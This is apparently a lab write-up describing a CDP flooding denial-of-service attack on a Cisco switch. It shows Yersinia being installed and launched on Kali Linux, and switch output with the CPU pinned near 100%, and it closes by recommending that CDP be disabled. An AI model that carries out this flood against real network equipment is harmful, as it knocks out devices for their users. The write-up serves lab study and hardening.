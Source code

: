 ```yaml
---
title: CDP flooding
---
```


# CDP flooding

1. Goal
    * To saturate the CPU of a Cisco device.

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 Cisco device

3. Used software
    * Kali Linux (2019.4)

4. Setup
    
    ![Success](./assets/setup.png)

5. Getting started
    1. Check if CDP (Cisco Discovery Protocol) is enabled on the Cisco device.
    ```
    Switch#show cdp
    Global CDP information:
        Sending CDP packets every 60 seconds
        Sending a holdtime value of 180 seconds
        Sending CDPv2 advertisements is enabled
    Switch#
    ```
    2. Check the CPU usage of the Cisco device
    ```
    Switch#show processes cpu history

                         11111
          444445555577777444445555577777444445555555555555555555544444
    100
    90
    80
    70
    60
    50
    40
    30
    20
    10      *************************     ********************
         0....5....1....1....2....2....3....3....4....4....5....5....6
                   0    5    0    5    0    5    0    5    0    5    0
                   CPU% per second (last 60 seconds)
    ```
    3. Install Yersinia on Kali Linux (if necessary)
    ```
    root@kali:~# apt-get update
    root@kali:~# apt-get upgrade
    root@kali:~# apt-get install yersinia
    ```
    4. Launching CDP flooding
    ```
    root@kali:~# yersinia -G
    ```
    ![Success](./assets/yersinia.png)

    Select Launch attack -> flooding CDP table

    ![Success](./assets/attack.png)

    The result of the attack can be seen in the following outputs.
    ```
    Switch#show cdp traffic
    CDP counters :
        Total packets output: 30, Input: 36432
        Hdr syntax: 0, Chksum error: 0, Encaps failed: 0
        No memory: 0, Invalid packet: 0,
        CDP version 1 advertisements output: 5, Input: 36432
        CDP version 2 advertisements output: 25, Input: 0
    Switch#
    ```
    ```
    Switch#show processes cpu history
       999999999999999999999999999999999999999999999999999999999999
       999999999999999999999999999999999999999999999999999999999999
   100 **********************************************************
    90 **********************************************************
    80 **********************************************************
    70 **********************************************************
    60 **********************************************************
    50 **********************************************************
    40 **********************************************************
    30 **********************************************************
    20 **********************************************************
    10 **********************************************************
       0....5....1....1....2....2....3....3....4....4....5....5....6
                 0    5    0    5    0    5    0    5    0    5    0
                 CPU% per second (last 60 seconds)
    ```
    6. Conclusion
    
    It is recommended to disable CDP whenever possible.